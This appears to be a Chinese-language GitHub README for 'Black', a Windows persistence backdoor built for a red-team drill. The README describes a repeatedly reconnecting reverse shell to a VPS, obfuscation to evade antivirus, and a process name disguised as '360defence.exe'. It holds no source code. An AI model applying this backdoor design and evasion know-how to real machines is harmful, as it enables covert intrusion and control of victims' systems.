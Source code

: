 ## Windows权限维持工具

#### Why:

> 起源：某次应急响应的演练中，甲方爸爸要求开发一个病毒后门来完成这次演练
>
> 要求：
>
> 1、有异常外联行为（后门）
>
> 2、有内网横向功能
>
> 3、有传播复制蠕虫
>
> （我要五彩斑斓的黑.jpg）

#### How：

进入正题，先实现功能1

正好自己也想写个权限维持的工具出来

##### **~开发思路：**

- S端通过socket管道来传输command给C端，C端执行，实现简易的后门控制
- 采用TCP socket、传输稳定，不掉包（可能会出现粘包，未做边界分离）
- 靶机为C端，公网VPS为S端，C端不断发起连接，以防掉线
- 混淆代码，初步免杀

##### ~使用方法：

> ```
> # Windows权限维持后门、持续反弹shell，60s/1次
> Black v1.0
> Usage: black.exe r_ip r_port
> author: NOVASEC_黑仔
> if cmd == quit:
>     关闭管道，临时退出
> elif cmd == exit:
>     程序结束，永久退出
> else:
>  执行命令，回显结果
> ```

##### **~使用效果：**

正常回显

![image-20210330174558324](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20210330174558324.png)

暂时退出、断开后，60s再次连接，继续执行命令

![image-20210330174838523](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20210330174838523.png)

永久退出、断开连接

![image-20210330175403279](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20210330175403279.png)

靶机端口及进程情况：

![image-20210330175221694](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20210330175221694.png)

![image-20210330175046964](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20210330175046964.png)

##### ~免杀情况：

![image-20210330173705993](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20210330173705993.png)

![image-20210330170259060](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20210330170259060.png)

被检测出了，建议隔离

![image-20210330170745685](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20210330170745685.png)

V1.1

> 在之前的基础上
>
> 增加花指令
>
> 增加程序图标
>
> 其他不变（进程名360defence.exe，双进程）

![image-20210331232840781](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20210331232840781.png)

![image-20210331232844697](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20210331232844697.png)

##### **~后期规划**：

- 进行出网判断
- 流量加密
- 进阶免杀
- 等等...







